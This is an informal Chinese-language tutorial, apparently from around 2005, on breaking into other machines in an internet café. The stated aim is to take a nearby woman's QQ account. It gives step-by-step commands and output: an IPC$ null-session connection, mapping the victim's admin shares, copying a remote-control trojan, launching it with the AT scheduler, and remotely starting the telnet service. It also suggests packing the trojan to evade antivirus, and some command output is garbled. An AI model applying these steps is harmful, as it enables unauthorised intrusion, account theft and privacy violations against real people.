 关于ipc入侵就说这么多了,觉得已经够详细了,如果有不准确的地方,希望能与大家讨论。 



# 网吧入侵全攻略 

好久都没来网吧了.今天一朋友来找我.外面有下着雪.实在没地方玩.又给溜进了网吧... 

在以前家里没买电脑时.整天都泡这网吧..所以对他的系统设置什么还了解点.都大半年没来了...不知道有啥变化.. 

这网吧还不错.别的网吧都是无盘的或者就是98的.这里98和2000都有..呵...搞入侵可方便了.... 

无意的看到13号坐着两MM...嘻....入侵也由此开始了.看能不能拿到MM的QQ号.....偶也找了一2000系统的机器做下..(偶找了一角落.呵.这样比较安全点..) 

打开偶可爱的CMD..先net name下看看本机情况 

WANGLU05 
USER2000 
命令成功完成。 
我本机名是WANGLU05.ping下看看IP有无什么规则 
Pinging wanglu05 [192.168.0.13] with 32 bytes of data: 
Reply from 192.168.0.13: bytes=32 timenet use //192.168.0.225/ipc$ "" /user:"user04" 
命令成功完成。 

网吧系统盘为G盘.接着映射对方G盘为我本地Z盘. 
G:/>net use z: //192.168.0.225/g$ 
命令成功完成。 

现在我的电脑里多了一个Z盘...图3. 

现在我们在这个Z盘里新建或删除文件.也就等于在192.168.0.225这个机器上操作了... 
这些相信大家都知道的吧..我就不废话了..当然这些还不是我们想要的...要进一步控制她.然后拿到QQ号.^_^........表说我坏.... 
下面来copy一个木马客户端上去先...由于只是看QQ而已...所以我找了一个 
web控制台.体积没多大,205KB..下面是关于webserver的介绍./../ 
web控制台 （本站不提供此类工具下载） 
一个直接在IE栏里输入对方IP就可以控制对方机器的小软件，也就是所谓的B/S模式的控制。用起来很方便，对方运行了服务端后，你在IE栏里直接输入对方IP就可以控制了，也可以通过刷新来实现重复抓屏。 
接着 
G:/>copy webserver.exe //192.168.0.225/admin$ 
已复制 1 个文件。 
G:/>net time //192.168.0.225 
//192.168.0.225 的当前时间是 2005/2/5 下午 05:00 
命令成功完成 

G:/>at //192.168.0.225 17:02 webserver.exe 
用AT命令启动webserver.exe. 
2分钟过后.在IE里输入192.168.0.225.就可以控制对方了...可是偶一会用net time查看时.都已经过了3分钟了.还是打不开....后来又重新来了一次.眼睛就盯着MM的屏幕看,才发现到了我指定的时间.程序执行时.被瑞星给杀了... 
FT....我说那. 
难道就没办法了吗...当然不是...可以换个别的马或加壳.修改它特征码什么的.但在网吧工具也不是很齐全.我也懒的下.. 
还好微软为我们提供了一个非常不错的系统工具....也算的上是一类控制软件了... 
打开控制面板--管理工具--计算机管理 
操作-连接到另一计算机. 
然后输入IP192.168.0.225 

呵.等一会就可以看到成功了...你看到了什么? 
更爽的是我们可以远程开启他的服务...在这里启动他的telnet服务. 
